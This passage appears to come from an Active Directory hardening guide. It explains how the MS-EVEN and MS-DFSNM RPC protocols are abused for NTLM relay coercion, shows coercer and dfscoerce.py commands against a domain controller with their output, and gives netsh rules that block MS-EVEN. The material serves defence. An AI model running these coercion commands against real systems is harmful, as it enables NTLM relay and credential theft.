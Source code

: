 The protocol is only exposed over the `\PIPE\eventlog` named pipe and might be abused
by malicious actors to initiate NTLM relay attacks:

```shell
coercer coerce --username john --password 'Pa$$w0rd' --domain 'contoso.com' --target-ip 'dc01.contoso.com' --listener-ip hacker-pc --always-continue --filter-protocol-name MS-EVEN --filter-transport msrpc
```

```txt
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4.3
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target dc01.contoso.com
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
      [!] (NO_AUTH_RECEIVED) MS-EVEN──>ElfrOpenBELW(BackupFileName='\??\UNC\10.213.0.100\BvcavuA5\aa')
[+] All done! Bye Bye!
```

The following sequence of `netsh.exe` commands will block the legacy MS-EVEN protocol traffic entirely:

```txt
rpc filter
add rule layer=um actiontype=block filterkey=f7f68868-5f50-4cda-a18c-6a7a549652e7
add condition field=if_uuid matchtype=equal data=82273FDC-E32A-18C3-3F78-827929DC23EA
add filter
```

#### \[MS-DFSNM\]: Distributed File System (DFS): Namespace Management Protocol

The [\[MS-DFSNM\]: Distributed File System (DFS): Namespace Management Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/95a506a8-cae6-4c42-b19d-9c1ed1223979)
with UUID [4FC742E0-4A10-11CF-8273-00AA004AE673](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsnm/af348786-37e1-47a7-90f9-25727c350c38)
is exposed over the `\PIPE\netdfs` named pipe and is often abused to initiate NTLM relay attacks:

```shell
python3 dfscoerce.py -u john -p 'Pa$$w0rd' -d contoso.com hacker-pc dc01
```

```txt
[-] Connecting to ncacn_np:dc01[\PIPE\netdfs]
[+] Successfully bound!
[-] Sending NetrDfsRemoveStdRoot!
NetrDfsRemoveStdRoot
ServerName:                      '10.213.0.100\x00'
RootShare:                       'test\x00'
ApiFlags:                        1

DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
```


[Admin Model]: https://petri.com/use-microsofts-active-directory-tier-administrative-model/
[System Center Configuration Manager]: https://learn.microsoft.com/en-us/mem/configmgr/core/understand/introduction
[System Center Operations Manager]: https://learn.microsoft.com/en-us/system-center/scom/get-started
[Network Location Awareness]: https://learn.microsoft.com/en-us/windows/win32/winsock/network-location-awareness-service-provider-nla--2
[Privileged Access Workstation]: https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-devices
[Attack Surface Reduction]: https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/overview-attack-surface-reduction?view=o365-worldwide
[Remote Procedure Call]: https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page
[Active Directory Domain Services]: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Remote Server Administration Tools]: https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools
[Link-Local Multicast Name Resolution]: https://www.rfc-editor.org/rfc/rfc4795.html
[MSS (Legacy)]: https://techcommunity.microsoft.com/t5/microsoft-security-baselines/the-mss-settings/ba-p/701055
[MS Security Guide]: https://learn.microsoft.com/en-us/deployoffice/security/security-baseline#ms-security-guide-administrative-template